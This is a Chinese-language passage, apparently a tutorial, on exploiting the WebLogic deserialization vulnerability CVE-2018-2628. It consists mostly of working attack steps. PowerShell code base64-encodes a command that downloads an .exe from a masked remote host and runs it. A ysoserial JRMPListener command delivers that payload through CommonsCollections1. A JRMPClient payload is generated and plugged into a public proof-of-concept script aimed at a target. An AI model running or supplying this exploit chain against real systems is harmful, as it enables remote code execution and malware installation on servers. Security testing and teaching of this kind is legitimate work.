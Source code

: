 对下载执行的powershell代码作base64加密，powershell实现代码如下:

```
$fileContent = "(new-object System.Net.WebClient).DownloadFile('http://******/***.exe','***.exe');start-process '***.exe'"
$bytes  = [System.Text.Encoding]::Unicode.GetBytes($fileContent);
$encoded = [System.Convert]::ToBase64String($bytes); 
$encoded
```

将输出的内容替换下面代码中的`****`:

定位到文件ysoserial-master.jar的目录

```
java -cp ysoserial-master.jar ysoserial.exploit.JRMPListener 1099 CommonsCollections1 'powershell.exe -enc ****'
```

#### 2、生成JRMPClient

本地ip为192.168.62.140

```
java -jar ysoserial-master.jar JRMPClient "192.168.62.140:1099" > p.dat
cat p.dat  | xxd -ps | tr -d "\n"
```

得到结果替换python脚本里面的payload

#### 3、、执行测试脚本

https://github.com/shengqi158/CVE-2018-2628/blob/master/weblogic_poc.client1.for.scan-cve-2018-2628.py

修改python脚本里面的dip

执行python脚本：

```
python CVE-2018-2628.py
```



